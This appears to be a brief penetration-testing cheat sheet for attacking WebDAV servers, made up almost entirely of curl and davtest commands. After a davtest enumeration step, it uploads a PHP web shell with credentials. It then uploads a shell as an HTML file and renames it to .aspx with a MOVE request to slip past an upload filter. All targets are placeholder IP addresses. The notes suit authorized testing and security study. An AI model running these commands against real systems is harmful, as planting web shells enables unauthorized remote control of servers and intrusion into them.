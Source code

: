 ## Webdav enumeration

davtest -url http://xx.xx.xx.xx

## Upload shell 

curl -vvv --upload-file cmd.php http://xxx.xxx.xxx.xxx/webdav/cmd.php --user username:password

## Upload shell as html and rename to bypass filter

```sh
curl -vvv -T '/home/nighter/shell.html' 'http://xxx.xxx.xxx.xxx/'
curl -v -X MOVE --header 'Destination:http://xxx.xxx.xxx.xxx/shell.aspx' 'http://xxx.xxx.xxx.xxx/shell.html'
```
